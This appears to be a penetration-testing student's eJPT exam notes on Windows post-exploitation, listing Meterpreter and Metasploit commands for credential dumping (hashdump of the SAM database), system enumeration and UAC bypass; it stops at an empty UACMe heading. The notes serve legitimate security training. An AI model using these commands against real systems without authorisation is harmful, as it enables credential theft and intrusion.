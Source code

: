 ## Windows Post Exploitation

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### Meterpreter
```
getsystem - try to elevate privileges
hashdump - try to download SAM database for credentials
```
### Metasploit
```
post/multi/recon/local_exploit_suggester
search win_privs - shows privileges of the account
search enum_logged_on_users - show users logged or previously logged on the system
search checkvm - check if the target is VM
search enum_applications - show installed programs
search type:post platform:windows enum_av - AntiVirus enumeration
search enum_computer - domain PC enumeration
search enum_patches - patch enumeration
search enum_shares - SMB shares enumeration
search rdp platform:windows - try to establish an RDP connection
```
## Windows Privilege Escalation

### Bypassing UAC (Meterpreter)

With the help of x64 Meterpreter session, we can try to bypass UAC employing Windows Escalation UAC Bypass.

### Meterpreter

Check if the account is an administrator. If not, we can try to elevate our privileges with the help of meterpreter's commands.
```
getuid
getsystem
getprivs
shell
net users
net local group administrator
```

We are locked out by the UAC, so we load and use this Metasploit module.
```
search bypassuac_injection
```
Then we can try again to obtain elevated privileges.
```
getuid
getsystem
getprivs
```
### Bypassing UAC with UACMe
